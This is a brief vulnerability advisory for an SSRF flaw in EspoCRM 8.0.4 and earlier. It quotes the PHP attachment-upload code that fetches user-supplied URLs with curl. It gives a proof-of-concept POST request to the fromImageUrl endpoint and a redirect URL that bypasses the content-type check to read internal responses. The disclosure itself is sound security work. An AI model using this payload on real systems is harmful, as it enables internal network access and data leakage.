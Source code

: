 ### EspoCRM

- **Application**: EspoCRM <=8.0.4

- **Threat Impact**: Sensitive data leakage, Potentially file disclosure

- **Code**: 

  File `application/Espo/Tools/Attachment/Api/PostFromImageUrl.php`

  ```
  public function process(Request $request): Response
  {
    $data = $request->getParsedBody();
    $url = $data->url ?? null;
    ...
    $attachment = $this->uploadUrlService->uploadImage($url, $fieldData);
   }
  ```

  File: `application/Espo/Tools/Attachment/UploadUrlService.php`

  ```
  public function uploadImage(string $url, FieldData $data): Attachment
  {
    $this->getImageDataByUrl($url);
  }
  
  private function getImageDataByUrl(string $url): ?array {
    ...
    $opts[\CURLOPT_URL]  = $url;
    ...
    $ch = curl_init();
    curl_setopt_array($ch, $opts);
    $response = curl_exec($ch);
  }
  ```

- **POC**:

  1. Listen on 8888 on server side

  2. Send a post request to /api/v1/Attachment/fromImageUrl, with data 

     ```
     {
      "url": "http://localhost:8888",
      "parentType": "Note",
      "field":  "attachments"
     }
     ```

  3. Receive a request on server side. 
  4. To bypass content type check, redirect like https://ssrf.localdomain.pw/img-with-body/301-http-127.0.0.1:8888-.i.jpg can be used. Then retrieve the response back through /api/v1/Attachment/file/id endpoint